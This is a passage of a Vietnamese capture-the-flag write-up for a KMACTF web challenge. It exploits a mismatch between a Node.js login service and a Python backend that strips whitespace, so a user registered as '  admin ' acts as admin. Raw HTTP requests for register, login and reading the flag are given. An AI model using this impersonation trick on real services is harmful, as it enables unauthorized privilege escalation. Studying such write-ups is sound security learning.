 Còn `/action` sẽ get data từ requests của user. Sau đó sẽ gửi về server python `/execute` : 
![image](https://hackmd.io/_uploads/S1U7FcL2gl.png)

Để ý thì `register, login` sẽ ở bên service nodejs. Còn khi action qua service của python thì nó sẽ nhận data và `.strip()` 
![image](https://hackmd.io/_uploads/BkkjY58hll.png)
Ý tưởng : 

Chúng ta có thể lợi dụng điều này để reg username `  admin        ` (có space ở 2 đầu) để register và login.
Sau đó khi server `nodejs` forward qua server `python` thì sẽ strip và chúng ta đã được user là `admin` trong requests tới `/execute`.
Register : 
```markdown
POST /register HTTP/1.1
Host: 165.22.55.200:50004
Connection: keep-alive
Content-Type: application/json
Content-Length: 43

{"username":"  admin ","password":"duc193"}
```

![image](https://hackmd.io/_uploads/Hkpgj583ll.png)

Login : 
```markdown
POST /login HTTP/1.1
Host: 165.22.55.200:50004
Connection: keep-alive
Content-Type: application/json
Content-Length: 43

{"username":"  admin ","password":"duc193"}
```
![image](https://hackmd.io/_uploads/ryo-o9Lhgl.png)

Get flag : 

```markdown
POST /action HTTP/1.1
Host: 165.22.55.200:50004
Connection: keep-alive
Content-Type: application/json
Authorization: Beaber eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IiAgYWRtaW4gIiwiaWF0IjoxNzU5MDU4NjgxLCJleHAiOjE3NTkxNDUwODF9.YlixecXi8vByAOr-xZSGv7b1uXQD7lPldoGwvQRFHaM
Content-Length: 21

{"action":"readFlag"}
```
![image](https://hackmd.io/_uploads/S1TPi5Ihll.png)
flag : `KMACTF{how_can_you_pollute_param_@@_}`
